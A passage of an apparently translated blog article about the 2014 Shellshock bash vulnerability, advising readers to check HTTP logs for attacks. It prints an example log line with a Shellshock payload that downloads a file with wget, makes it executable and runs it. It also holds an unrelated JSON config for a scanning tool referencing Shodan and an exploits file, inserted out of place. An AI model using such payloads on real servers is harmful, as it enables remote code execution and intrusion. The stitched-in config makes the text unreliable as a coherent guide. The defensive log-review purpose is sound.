 
<p>The exploitation of this vulnerability is widely used in relation to servers located on the Internet.&nbsp;Even some workstations running Linux and OSX are vulnerable, but to carry out an attack, cybercriminals need to find an attack vector that allows them to remotely exploit the vulnerability on a specific workstation.</p>



<p>This threat is not aimed at individual users, but at servers located on the Internet.&nbsp;This means that if, for example, your favorite e-commerce or online banking site is vulnerable, attackers could theoretically hack the server and gain access to your personal data, including possibly banking information.</p>



<p>It’s difficult to say for sure which platforms may be vulnerable and targeted, but I would recommend not making credit card payments or sharing sensitive information online for the next couple of days until virus analysts clear up the situation.</p>



<pre class="wp-block-code"><code>{
    "config": {
        "threads": 10,
        "path": {
            "path_output": "output/",
            "path_wordlist": "wordlist/",
            "path_modules": "modules/",
            "path_assets": "assets/"
        },
        "files_assets":{
            "config": "assets/config.json",
            "autor": "assets/autor.json",
            "exploits": "assets/exploits.json"
        },
        "api":{
            "shodan":"",
            "ipinfo":""
        }
    }
}</code></pre>



<h3 class="wp-block-heading" id="kak-ya-mogu-opredelit-chto-stal-mishenyu-dlya-ataki-s-ispolzovaniem-etoj-uyazvimosti">How can I determine if I have been targeted by an attack using this vulnerability?</h3>



<p>We recommend reviewing your HTTP logs for suspicious activity, such as this:</p>



<figure class="wp-block-table"><table><tbody><tr><td>1</td><td>192.168.1.1 – – [25/Sep/2014:14:00:00 +0000] “GET / HTTP/1.0” 400 349 “() { :; }; wget -O /tmp/besh http://192.168.1.1/filename; chmod 777 /tmp/besh; /tmp/besh;”</td></tr></tbody></table></figure>



<p>There are also some patches for the bash environment that log every command passed to the bash interpreter, allowing you to see if your computer has been attacked.&nbsp;They will not protect you from an attack that exploits&nbsp;<a href="https://cryptodeeptech.ru/blockchain-attack-vectors/">this vulnerability</a>&nbsp;, but they will log the attacker’s actions on your system.</p>
